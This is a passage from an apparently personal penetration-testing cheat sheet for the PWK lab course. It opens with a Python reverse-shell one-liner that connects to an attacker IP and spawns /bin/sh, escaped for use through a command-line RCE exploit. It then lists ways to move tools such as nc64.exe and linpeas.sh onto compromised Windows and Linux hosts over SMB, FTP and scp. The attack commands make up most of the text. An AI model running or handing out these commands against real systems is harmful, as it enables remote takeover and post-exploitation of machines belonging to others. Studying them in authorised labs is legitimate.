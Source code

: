 Escaped quotes example e.g. when executing through a command line RCE exploit we might need to be careful of quotes.
```bash
"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.118.6\",15672));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

# File transfer

## Windows

### SMB 

SMB server hosted on Linux using `impacket`.

```bash
sudo impacket-smbserver data .
```

On a Windows shell we can simply copy files to and from the network share.

```powershell
# cmd
copy \\192.168.119.250\data\test.bat

# PowerShell
Copy-Item \\192.168.119.250\data\nc64.exe C:\Users\Public\.
```

We can easily upload and download from Windows this way.

### FTP

Start FTP server on Kali with python.

```bash
python3 -m pyftpdlib -w -p 21
```

On the Windows box we can enter an interactive FTP shell as normal `ftp user@ip` and upload the files needed.

We can use wget to recursively download whole FTP directories:

```bash
wget -m --no-parent --no-passive ftp://username:password@IP
```

## Linux

If firewall rules blocks HTTP connections and we have a low-privilege shell, we can generate SSH keys with `ssh-keygen`, add them to the Kali authorized keys file, and use `scp` for file transfer. This is not particularly OPSEC-safe but is fine for PWK labs.

```bash 
scp -i /var/lib/postgresql/.ssh/id_rsa kali@192.168.49.171:/home/kali/tools/linpeas.sh /tmp/
```
